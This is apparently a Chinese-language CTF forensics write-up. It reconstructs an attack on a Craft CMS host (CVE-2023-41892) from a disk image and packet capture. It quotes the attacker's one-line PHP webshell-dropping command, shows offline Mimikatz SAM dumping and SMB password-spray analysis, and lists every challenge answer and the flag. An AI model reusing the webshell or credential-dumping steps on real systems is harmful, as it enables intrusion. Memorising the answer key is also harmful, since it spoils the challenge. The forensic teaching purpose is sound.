


# Big and beautiful

## 题目简述

本题是一道由磁盘取证和流量分析组成的攻击链复盘题。环境中有三台同网段主机：

- Windows 10：未加入域，通过 phpStudy 部署了存在漏洞的 Craft CMS，是最初被攻陷的 Web 主机；
- Windows 7：已加入域，题目提供的 `1.pcapng` 在该主机侧捕获；
- Windows Server 2019：Active Directory 域控制器，域名为 `0xgaammee.com`。

攻击者先利用 Craft CMS 漏洞在 Windows 10 上写入 PHP 木马，随后取得用户名、密码字典并建立 FRP 隧道，再对域内账户进行密码喷洒。`1.E01` 保存 Windows 10 的磁盘证据，`1.pcapng` 保存后续认证流量。题目要求依次回答本地账户密码、漏洞编号、落地命令、数据库密码、加密容器内容、域账户凭据、域名和域控主机名，八项全部正确后得到 flag。

仓库中的判题程序 `docker/2.py` 对八个答案做精确字符串比较，因此大小写、标点、空格以及命令中的转义符都不能省略。

## 解题过程

### 1. 恢复本地用户 `0xGame` 的密码

用 FTK Imager 挂载 `1.E01`，从 `C:\Windows\System32\config` 导出 `SAM` 和 `SYSTEM`。`SYSTEM` 中保存解密 SAM 凭据所需的系统密钥，二者必须配套使用。使用 Mimikatz 离线解析：

```text
lsadump::sam /sam:SAM /system:SYSTEM
```

`0xGame`（RID `1000`）对应的 NTLM 为：

```text
e9b645edfe001e3555df8436404deac6
```

该哈希对应明文 `12345qwerty`。无需依赖在线查库也能验证：NTLM 的计算方式为 `$NTLM=MD4(UTF\text{-}16LE(password))$`，本地计算结果与镜像中提取的哈希完全一致。

```python
from Crypto.Hash import MD4

digest = MD4.new()
digest.update("12345qwerty".encode("utf-16le"))
print(digest.hexdigest())
# e9b645edfe001e3555df8436404deac6
```

第一问答案：

```text
12345qwerty
```

### 2. 确认 Craft CMS 漏洞及木马命令

镜像中的站点根目录为 `C:\phpstudy_pro\WWW\site`，其目录结构、配置文件和 Composer 信息表明目标使用 Craft CMS。继续查看 `C:\phpstudy_pro\WWW\site\storage\logs\web-2025-09-02.log`，可以发现请求环境中的 `HTTP_USER_AGENT` 被放入了一条 Windows 命令，并最终在站点目录生成 `shell.php`。

这一行为与 [Craft CMS 官方安全公告 GHSA-4w8r-3xrw-v25g](https://github.com/craftcms/cms/security/advisories/GHSA-4w8r-3xrw-v25g) 对应，即 `CVE-2023-41892`：受影响范围为 Craft CMS `4.0.0-RC1`～`4.4.14`，攻击向量为无需认证、低复杂度的网络远程代码执行，官方在 `4.4.15` 中修复。结合产品版本、恶意请求和落地结果，可以确定第二问，而不必依赖外部文章中的截图。

第二问答案：

```text
CVE-2023-41892
```

日志中的完整 `cmd.exe` 命令为：

```cmd
echo ^<?php @eval^($^_POST^[1^]^)^;?^> > shell.php
```

其中 `^` 用于转义 `cmd.exe` 会解释的特殊字符，`echo` 实际写入的 PHP 内容是 `<?php @eval($_POST[1]);?>`，最后的 `> shell.php` 将其落地为以 POST 参数 `1` 执行代码的一句话木马。

第三问必须提交原始命令，而不是只提交 PHP 代码：

```text
echo ^<?php @eval^($^_POST^[1^]^)^;?^> > shell.php
```

### 3. 从 MySQL 表空间恢复被修改的管理员密码

phpStudy 的 MySQL 数据目录位于 `C:\phpstudy_pro\Extensions\MySQL5.7.26\data`。在数据库 `db` 的独立表空间 `db_users.ibd` 中搜索可打印字符串，可以在用户记录附近直接看到攻击者写入的管理员密码：

```text
This_is_the_h4ck3r's_p@ssw0rd!!!
```

这里不需要完整启动原 MySQL 实例；题目把目标值以明文形式留在 InnoDB 页中，十六进制查看或字符串搜索即可恢复。第四问答案即为上述字符串。

### 4. 打开 VeraCrypt 容器并读取重要文件

在 `C:\ProgramData` 下可以发现一个与正常软件无关的隐藏目录，其中包含名为 `secret` 的 VeraCrypt 容器以及一张名称暗示“可作为密钥”的图片。挂载 `secret` 时不输入普通口令，而是把该图片加入 VeraCrypt 的 keyfiles 列表。

挂载后的卷内包含 `important_file.txt`、`password.csv` 和 `usernames.csv`。读取 `important_file.txt` 得到第五问答案：

```text
I_think_spaghetti_should_be_mixed_with_No.42_concrete.
```

这两个 CSV 同时解释了后半段攻击链：攻击者取得字典后，经由隧道对域账户进行顺序密码喷洒。

### 5. 从 SMB 认证流量定位成功的域账户

在 Wireshark 中筛选 SMB 成功状态，并检查 `Session Setup AndX`、`NTLMSSP_AUTH` 及其后的树连接：

```text
smb.nt_status == 0x00000000
```

可以看到攻击源 `192.168.58.3` 对 `192.168.58.243` 多次尝试账户 `0xgaammee.com\vridge334`。前两次认证没有建立后续共享访问，第三次认证后出现对 `\\192.168.58.243\IPC$` 的 `Tree Connect`，说明第三个字典密码命中。



需要注意，NTLMSSP 不会把明文密码直接放进数据包；抓包只能确认账户、域和认证是否成功。明文密码 `hP3$vKc@7mXr!9L` 是结合 `password.csv` 的喷洒顺序推得。题目要求按“用户名_密码”的格式提交，因此第六问答案为：

```text
vridge334_hP3$vKc@7mXr!9L
```

### 6. 确认域名和域控主机名

域名可从 NTLMSSP 身份 `0xgaammee.com\vridge334` 直接读出，所以第七问答案为：

```text
0xgaammee.com
```

再筛选该域的 DNS 查询：

```text
dns.qry.name contains "0xgaammee.com"
```

流量中存在对 `0xgameDC.0xgaammee.com` 的 A 记录查询和响应。FQDN 的主机部分即域控名称，提交时按照判题程序要求使用大写：



```text
0XGAMEDC
```

### 7. 提交全部答案并取得 flag

按顺序提交八项答案：

```text
12345qwerty
CVE-2023-41892
echo ^<?php @eval^($^_POST^[1^]^)^;?^> > shell.php
This_is_the_h4ck3r's_p@ssw0rd!!!
I_think_spaghetti_should_be_mixed_with_No.42_concrete.
vridge334_hP3$vKc@7mXr!9L
0xgaammee.com
0XGAMEDC
```

全部通过后得到：

```text
0xGame{Th1s_t4sk_1s_TREMENDOUSLY_b1g_and_b3autifu1_isnt_1t?}
```

## 方法总结

本题的重点不是某一个工具，而是把不同证据源串成完整攻击时间线：SAM 与 SYSTEM 恢复最初受害主机的本地凭据；站点目录和 Web 日志确认 Craft CMS RCE 及木马落地命令；MySQL 表空间保留攻击者修改的密码；VeraCrypt 容器给出重要文件和喷洒字典；最后由 SMB、NTLMSSP 和 DNS 流量确认域账户、成功密码、域名与域控主机名。

分析认证流量时尤其要区分“包中直接可见的信息”和“结合上下文推导的信息”：账户、域名、成功状态可以从抓包读取，明文密码则来自喷洒顺序与字典的关联。所有答案最终还应与原始日志、数据文件和判题源码交叉验证，避免因大小写、转义符或提交格式错误丢分。
